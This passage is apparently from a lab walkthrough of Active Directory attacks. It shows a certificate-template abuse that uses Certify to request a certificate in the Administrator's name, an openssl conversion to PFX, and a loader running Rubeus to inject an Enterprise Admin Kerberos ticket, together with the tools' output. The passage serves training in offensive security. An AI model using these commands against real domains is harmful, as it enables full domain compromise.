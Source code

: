 Let's try to access the `us-dc` to confirm our privileges.

```
C:\Windows\system32> winrs -r:us-dc "set username && set computername"

USERNAME=Administrator 👤
COMPUTERNAME=US-DC 🖥️
```

**Get Enterprise Admin privileges**

Similarly, we can get Enterprise Admin privileges.

Use the following command to request an EA certificate (same command as use previously).

```
C:\Windows\system32> C:\AD\Tools\Certify.exe request /ca:Techcorp-DC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator

[SNIP]
```

Copy all the text between "-----BEGIN RSA PRIVATE KEY-----" and "-----END CERTIFICATE-----" and save it to `cert.pem`.

We need to convert it to PFX to use it. Use openssl binary on the student VM to do that. I will use "P@ssw0rd1!" as the export password.

```
C:\Windows\system32> C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\EA.pfx

Enter Export Password:
Verifying - Enter Export Password:
```

Finally, request and inject the EA TGT in the current session.

📌 Note that here we specify the user to be the Enterprise Admin `techcorp.local\Administrator`.

```
C:\Windows\system32> echo %Pwn%

asktgt

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:techcorp.local\Administrator /dc:techcorp-dc.techcorp.local /certificate:C:\AD\Tools\EA.pfx /password:P@ssw0rd1! /nowrap /ptt

[SNIP]

[*] Action: Ask TGT 🎟️

[SNIP]

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/techcorp.local
  ServiceRealm             :  TECHCORP.LOCAL
  UserName                 :  Administrator 🎭
  UserRealm                :  TECHCORP.LOCAL 🏛️
  StartTime                :  4/29/2025 8:20:46 AM
  EndTime                  :  4/29/2025 6:20:46 PM
  RenewTill                :  5/6/2025 8:20:46 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  uwtTsQf3JJJHjTZpdrFrBw==
  ASREP (key)              :  C1FA816D3656C2D3FAE3F48A39886ABB
```
